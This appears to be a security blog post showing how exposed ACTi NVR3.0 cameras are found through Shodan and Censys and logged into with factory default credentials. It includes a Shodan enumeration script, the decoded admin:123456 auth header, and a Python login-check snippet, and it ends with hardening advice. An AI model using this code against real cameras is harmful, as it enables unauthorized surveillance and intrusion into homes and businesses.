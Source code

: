 ```yaml
---
title: "Accessing Unsecure Cameras"
description: "Explore the risks associated with poorly secured cameras and learn how attackers exploit default credentials to gain unauthorized access."
pubDate: "16 May 2024"
heroImage: "/blog-placeholder-1.jpg"
tags: ["Cyber Security", "IOT", "Python"]
---
```



We all know that leaving default passwords active is a bad idea, but it can be even more risky on
security cameras. With such a simple oversight you are allowing intruders into your home or business
and losing all privacy.

Despite this being such an easy fix (just change the password!), many people end up skipping this step.
This results in their "secure" cameras becoming easily exploited by attackers.

<Alert type="warning">
  The information below is intended for educational purposes only. Never attempt
  to access any computer system without explicit permission.
</Alert>

## How Attackers Find Exposed Cameras

Using powerful search engines like Shodan and Censys, it makes finding internet connected devices
trivial. Unlike your regular search engine (eg google), these search engines are used to find
IOT devices, meaning any device connected to the internet. We can utilize these to search for
**ACTi NVR3.0 devices** - a popular camera. If we use Censys to search for the term "NVR3.0"
we can see 1000s of results are returned.

Once these cameras have been located, an attacker can manually attempt to login to each one
using the factory default credentials (admin/123456). These factory defaults are often left
enabled as people will not change them.

But why do this manually when it can be automated?

## Automating the Search

Shodan and Censys both provide convenient APIs to search through their databases. The API will return
detailed data including: IP, open ports, latitude, longitude, etc. Using this data makes searching
easy. Here is a simple Python script to demonstrate how the Shodan API can be used:

```python
api = Shodan(config.SHODAN_API)
search_term = 'http.html:NVR3.0'

count = api.count(search_term)['total']
for page in range(math.ceil(count/100)):
    query = api.search(query=search_term, page=page+1)
    for server in query['matches']:
        param = f"{server['ip_str']}:{server['port']}"
        location = server["location"]
        start_thread(param, "SHODAN", location["city"], location["country_name"], location["country_code"], location["longitude"], location["latitude"])

```

## Inspecting and Exploiting

Once an attacker finds a camera they are able to attempt to login. We can use tools
like Burp suite to log all HTTP requests that the browser makes and inspect the data.
When logging in we can observe a header that gets sent:

```
Authorization: Basic YWRtaW46MTIzNDU2
```

We are able to decode this base64 string to inspect the data:

```sh
$ echo YWRtaW46MTIzNDU2 | base64 --decode                                                                                                                          2ms
# admin:123456
```

The decoded string includes the username and password that we entered in the login
page. With this information an attacker can programmatically attempt to login:

```python
r = requests.get(f"http://{server}/Media/UserGroup/login?response_format=json", headers={"Authorization": "Basic YWRtaW46MTIzNDU2" }, timeout=10)
if(r.status_code == 200):
  print("Login success")
```

We can just check the response from the login requests and check it matches the
status code "200" (meaning successful login). At this point an attacker can then
login to the camera and view it. I've put together a script that will
automate the whole process - available on my [GitHub](https://github.com/member87/cam-finder)

## What Can Attackers Access?

Once logged in as an admin, the attacker will have full control over the cameras. This includes:

- **Live Viewing & Playback**: Watch the cameras in real time and previous historical recordings.
  If the camera also has audio support, they would also be able to hear conversations.
- **Camera Management**: Rename, delete, and configure camera settings.
- **Storage Control**: Delete previous recordings and reserve all disk space to prevent any
  new recordings
- **Camera Direction**: There are a few models of cameras that will allow you to rotate the
  position, potentially watching sensitive areas.
- **User Management**: Add, delete, or modify user accounts.

## Potential Impact of Poor Security

The implications of a compromised camera system are shocking. A bad actor could use this access
for anything from petty vandalism to a physical break-in—then delete the evidence. At the time of
writing, I’ve identified over 600 exposed cameras, many in homes and businesses.

## How to Secure Cameras (or anything IOT)

- **Default Passwords**: Any password that comes default with your device should
  be changed as soon as possible.
- **Limit Internet Exposure**: Don't make your devices available publically on the
  internet unless absolutely required. In these cases there should be sufficient
  security measures in place preventing public access.
- **IP Whitelist or VPN**: If you need remote access, limit which IPs can have access
  or use a VPN to securely connect.
